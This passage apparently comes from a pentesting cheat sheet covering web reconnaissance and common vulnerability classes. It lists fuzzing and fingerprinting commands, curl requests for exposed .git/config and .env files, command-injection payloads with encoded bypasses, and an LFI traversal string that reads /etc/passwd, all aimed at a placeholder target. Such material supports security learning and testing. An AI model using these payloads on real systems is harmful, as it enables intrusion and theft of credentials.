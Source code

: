 ```bash
ffuf -u http://target/index.php?FUZZ=test -w params.txt
```

#### 3️⃣ Hidden File Discovery

```bash
curl -s http://target/.git/config
curl -s http://target/.env
```

#### 4️⃣ Tech Stack Fingerprinting

```bash
whatweb http://target
wappalyzer http://target
```

***

### III. 💣 Common Vulnerability Classes

***

#### 🧬 1. Command Injection

Occurs when user input is passed to a system command.

**🔍 Test**

```
; id
&& whoami
| cat /etc/passwd
```

**💥 Exploit**

```bash
curl "http://target/vuln.php?cmd=whoami"
```

**🧠 Bypass Examples**

* Encoded: `%26%26whoami`
* Chained: `|| sleep 5`
* Obfuscated: `$(id)`

***

#### 🧩 2. Local File Inclusion (LFI)

When input allows inclusion of local files.

**🔍 Test**

```
page=../../../../etc/passwd
```
